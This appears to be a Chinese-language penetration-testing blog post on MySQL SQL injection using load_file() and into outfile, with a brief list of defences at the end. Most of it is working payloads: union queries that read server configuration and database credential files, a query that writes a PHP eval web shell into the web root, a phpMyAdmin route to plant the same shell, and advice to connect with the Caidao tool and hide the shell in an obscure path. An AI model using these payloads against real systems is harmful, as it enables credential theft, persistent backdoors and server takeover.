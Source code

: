 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之load_file和into outfile(MySQL)"
topics = ["Pentest"]

+++

### 0x00 load_file()
* 条件:

```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用?id=1 union select "<?php @eval($_POST['c']);?>" into outfile("C:/phpStudy/WWW/a.php")

* 其他方法 
    * 登陆phpMyAdmin  
    ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>"); --在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    ```
    drop aaa; --删除建立的表
    ```

    * 然后菜刀连接  
    ```ini
    菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件